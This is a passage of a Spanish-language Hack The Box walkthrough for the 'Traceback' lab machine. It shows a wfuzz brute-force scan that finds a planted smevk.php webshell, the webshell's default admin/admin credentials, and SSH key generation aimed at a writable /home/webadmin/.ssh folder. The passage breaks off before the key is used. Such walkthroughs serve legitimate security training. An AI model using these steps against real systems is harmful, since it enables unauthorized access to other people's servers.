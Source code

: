 Usamos la herramienta wfuzz para encontrar recursos no vinculados en aplicaciones web mediante fuerza bruta y encontramos que la página `smevk.php` dentro del dominio se encuentra disponible

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #wfuzz -c --hc 404 -t 500 -w nombres-webshells.txt http://10.10.10.181/FUZZ                                                                                         
********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************
                                 
Target: http://10.10.10.181/FUZZ
Total requests: 16
=================================================================== 
ID           Response   Lines    Word     Chars       Payload 
=================================================================== 
000000015:   200        58 L     100 W    1261 Ch     "smevk.php"
```




## Explotación

Nos dirigimos a `http://traceback.htb/smevk.php` y hay un disponible una página de login. Para las credenciales, nombre del usuario y contraseña, vamos al código fuente de la webshell [smevk.php](https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php)

```php
$UserName = "admin";                                      
$auth_pass = "admin";                                  
```

Una vez ingresemos al sistema, encontramos un panel interactivo en el cual podemos revisar los archivos y directorios.

En el directorio `/home/webadmin` encontramos una carpeta llamada `.ssh` que tiene permisos para lectura y escritura. Así que vamos a generar un par de llaves SSH con el siguiente comando

```bash
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Traceback]
└──╼ #ssh-keygen -t rsa -f ssh-keys
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again:
The key fingerprint is:
SHA256:C6q88E5F8SemBH1cVGq9zoZWMJiTZmJ3TRQg0OO2Jh0 root@parrot
The key randomart image is:
+---[RSA 3072]----+
|  ..o+.o++=.     |
|   ..o== =       |
|    =o%.B o      |
|   + BE* o .     |
|    oo.oS o      |
|   ...+. *       |
|. . .o  + +      |
| = .   . .       |
| .*.             |
+----[SHA256]-----+
```
